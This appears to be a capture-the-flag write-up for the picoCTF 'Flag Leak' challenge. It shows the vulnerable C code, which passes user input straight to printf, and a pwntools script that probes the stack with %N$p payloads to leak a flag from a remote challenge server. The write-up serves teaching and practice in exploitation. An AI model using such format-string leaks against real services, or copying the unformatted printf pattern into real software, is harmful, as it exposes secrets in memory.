



# Flag Leak

Challenge Description:

> Story telling class 1/2

> I'm just copying and pasting with this program. What can go wrong?

> Hint1 : Format Strings

## Analyzing code and creating exploit

We see that it is a 32 bit executable which is dynamically linked and not stripped.
Also the binary does not have PIE enabled which means the addresses within the binary like the functions will be constant.

`vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=7cdf03860c5c78d6e375e91d88a2b05b28389fd0, for GNU/Linux 3.2.0, not stripped`

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

The readflag function takes the flag from `flag.txt` and writes it to a buffer(flag) in the stack .We can read in 127 characters into the story buffer and this is printed out using printf without any format specifiers.This can lead to a format string attack as we can provide the format specifiers like `%s`,`%p` in the buffer.This leads to printf leaking values from the stack so that we can read the flag.

```c
void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

We use `%p` to read hex values from the stack because `%s` will require addresses to be present in the stack and will cause segmentation faults most of the time.

To read a specific offset into the stack,we can use `%{number}$p`.Eg: `%5$p`

We need to find the offset where the flag is present in the stack. To find the offset,we start from %1$p till we find a number which has `flag` in little endian.When we find this,we know that the flag starts here.

```python
from pwn import *

def byte2str(input):
	return str(input,"utf-8")

elf = ELF("./vuln",checksec=False)
#p = elf.process()

pico = "0x6f636970"	# 'galf' ('flag' in little endian)
var = True
iterator = 1

while(var):
	p = remote("saturn.picoctf.net", 63563)
	
	pattern = bytes(f'%{iterator}$p' , "utf-8")
	payload = pattern

	p.sendline(payload)

	p.recvline()
	
	output = byte2str(p.recvline()).strip()
	print(f"Iter = {iterator} and output = {output}")

	if (output == pico):
		print(f"Found offset = {iterator}")
		break
	iterator = iterator + 1

print("Finished Looping")

```
Running the above script gives us the offset as 36 as shown below.



Now,we just need to read more offsets from 36 to read the complete flag as one offset will only give us 4 bytes but the flag is around 32-40 bytes.
So,in the below screenshot,we start the server and give in 10 offsets from 36-46 to read around 40 bytes from the stack.



Now,we just have to swap the endianess and convert the hex to ascii.This can be easily done using cyberchef.


